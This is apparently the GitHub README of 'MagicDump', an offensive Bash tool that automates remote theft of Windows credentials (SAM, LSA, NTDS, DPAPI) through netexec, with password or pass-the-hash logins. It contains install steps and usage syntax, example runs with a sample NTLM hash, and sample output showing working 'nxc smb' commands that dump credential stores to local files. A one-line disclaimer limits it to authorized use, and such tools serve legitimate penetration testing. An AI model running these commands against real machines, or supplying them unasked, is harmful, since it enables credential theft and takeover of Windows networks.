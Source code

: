 # MagicDump

MagicDump is an automated tool designed to remotely dump credentials from Windows machines, including SAM, LSASS, NTDS, and DPAPI. It simplifies the process of extracting sensitive information, providing organized output and support for multiple authentication methods.

<br>

---

<br>

## Features
- **Credential Dumping**: Automates dumping of SAM, LSASS, NTDS, and DPAPI credentials.
- **Flexible Authentication**:
  - Username and Password Authentication.
  - Pass-the-Hash Authentication. 
  - (Upcoming) Pass-the-Ticket Authentication.
- **Organized Output**:
  - Logs actions in JSON format.
  - Saves dumps and logs to `~/.magicdump/`.
- **Real-Time Feedback**: Displays actions on the screen as they happen.

<br>

---

<br>

## Requirements
- Bash Shell
- Tools for credential dumping (e.g., `impacket`, `netexec`, etc.)

<br>

---

<br>

## Installation
Clone the repository:
```bash
git clone https://github.com/Mag1cByt3s/MagicDump.git
cd MagicDump
```

<br>

Make the script executable:
```bash
chmod +x MagicDump
```

<br>

---

<br>

## Usage
Run the script with the required options:
```bash
./MagicDump -t <target_ip> -u <username> [-p <password> | -H <hash>] [--local-auth] [-v]
```

<br>

### Arguments
`-t` / `--target`: Specify the target IP address of the Windows machine.
`-u` / `--username`: Specify the username to authenticate as.
`-p` / `--password`: Specify the password for authentication.
`-H` / `--hash`: Specify the NTLM hash for Pass-the-Hash authentication.
`--local-auth`: Use local authentication (optional).
`-v` / `--verbose`: Enable verbose output for debugging (optional).
`-h` / `--help`: Show usage info

<br>

---

<br>

## Examples
```bash
./MagicDump -t 192.168.1.100 -u administrator -p SuperSecretPass123
```

```bash
./MagicDump -t 192.168.1.100 -u administrator -H 'a066fbf49e79f43fffc449810227e399'
```

<br>

Output:
```bash
==============================
       MagicDump v1.0       
==============================
[INFO] Starting MagicDump against target 192.168.1.100
[INFO] Authenticating as user 'Administrator'...
[INFO] Starting SAM dump using netexec...
[DEBUG] Running command: nxc smb 192.168.1.100 -u Administrator -p 'SuperSecretPass' --sam > '/home/user/.magicdump/dumps/SAM_dump_192.168.1.100.txt' 2>/dev/null
[DEBUG] SAM dump completed successfully. Output saved to /home/user/.magicdump/dumps/SAM_dump_192.168.1.100.txt
[LOG] Operation: SAM, Status: success
[INFO] SAM dump saved to /home/user/.magicdump/dumps/SAM_dump_192.168.1.100.txt
[INFO] Starting LSA dump using netexec...
[DEBUG] Running command: nxc smb 192.168.1.100 -u Administrator -p 'SuperSecretPass' --lsa > '/home/user/.magicdump/dumps/LSA_dump_192.168.1.100.txt' 2>/dev/null
[DEBUG] LSA dump completed successfully. Output saved to /home/user/.magicdump/dumps/LSA_dump_192.168.1.100.txt
[LOG] Operation: LSA, Status: success
[INFO] LSA dump saved to /home/user/.magicdump/dumps/LSA_dump_192.168.1.100.txt
[INFO] Starting NTDS dump using ntdsutil...
[DEBUG] Running command: nxc smb 192.168.1.100 -u Administrator -p 'SuperSecretPass' -M ntdsutil > '/home/user/.magicdump/dumps/NTDS_dump_192.168.1.100.txt' 2>/dev/null
[DEBUG] NTDS dump completed successfully. Output saved to /home/user/.magicdump/dumps/NTDS_dump_192.168.1.100.txt
[LOG] Operation: NTDS, Status: success
[INFO] NTDS dump saved to /home/user/.magicdump/dumps/NTDS_dump_192.168.1.100.txt
[INFO] Dumping complete. Logs saved to /home/user/.magicdump/logs/report_192.168.1.100_20250104140000.json.
```

<br>

---

<br>

## Logfile example

```json
{
  "target_host": "192.168.1.100",
  "operation_time": "2025-01-04T14:00:00Z",
  "credentials_dumped": {
    "SAM": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/SAM_dump_192.168.1.100.txt"
    },
    "LSA": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/LSA_dump_192.168.1.100.txt"
    },
    "NTDS": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/NTDS_dump_192.168.1.100.txt",
      "method": "ntdsutil"
    }
  },
  "warnings": [],
  "logs": [
    "Starting MagicDump against target 192.168.1.100",
    "Authenticating as user 'Administrator'...",
    "Starting SAM dump using netexec...",
    "SAM dump saved to /home/user/.magicdump/dumps/SAM_dump_192.168.1.100.txt",
    "Starting LSA dump using netexec...",
    "LSA dump saved to /home/user/.magicdump/dumps/LSA_dump_192.168.1.100.txt",
    "Starting NTDS dump using ntdsutil...",
    "NTDS dump saved to /home/user/.magicdump/dumps/NTDS_dump_192.168.1.100.txt",
    "Dumping complete. Logs saved to /home/user/.magicdump/logs/report_192.168.1.100_20250104140000.json."
  ]
}
```

<br>

---

<br>

## Roadmap
- Add support for Pass-the-Ticket authentication.
- Integrate more advanced credential dumping techniques.
- Encrypt logs and dumps for security.

<br>

---

<br>

## License
[GPLv3 License](LICENSE)

<br>

---

<br>

## Disclaimer
**MagicDump is intended for authorized use only.** Ensure you have permission before using this tool on any system.
